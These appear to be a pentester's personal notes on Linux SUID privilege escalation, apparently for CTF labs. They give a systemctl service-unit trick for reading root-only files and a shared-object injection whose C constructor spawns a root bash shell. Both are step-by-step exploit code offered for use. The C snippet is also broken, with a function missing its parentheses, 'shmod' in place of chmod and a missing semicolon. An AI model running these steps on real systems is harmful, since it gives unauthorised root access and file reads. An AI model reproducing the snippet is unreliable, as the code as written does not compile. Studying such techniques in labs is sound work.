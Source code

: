 -- -
Abuse software that is vulnerable to being hijacked to run a shell command or file read or something it shouldn't because it has its SUID bit set and runs as root always. 
### General workflow
#### Enum
![[SUIDs#^ed7f08]]
#### Find Exploits
Go to [GTFOBins](https://gtfobins.github.io/#+suid) and search the output of above command. 

### Things I've Exploited
#### systemctl
#sytemctlexploit It is a file read exploit, so you won't get a shell, but you can read any file root can. 
```bash
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
cat /tmp/output # outputs the file you wanted to read
```
### Shared Object Injection

^2ec112

#SOInjection 
#### Enum
![[SUIDs#^8b428f]]
#### Exploit
```bash
# So this will be an example, the specifics in your situation will depend on the situation you are in. 

# in this example, it was looking for the file:
# /home/user/.config/libcalc.so
# .config nor libcalc.so exist at those locations, so we will make the directory and create some C code that will hijack execution when suid-so picks it up
cd /home/user
mkdir .config
cd .config
vim libcalc.c
```
**libcalc.c**
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject {
	system("cp /bin/bash /tmp/bash && shmod +x /tmp/bash && /tmp/bash -p")
}
```
#### Compile and exploit
```bash
# Compile to the expected location with the expected file
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/.config/libcalc.c

# run original suid program
/usr/local/bin/suid-so
```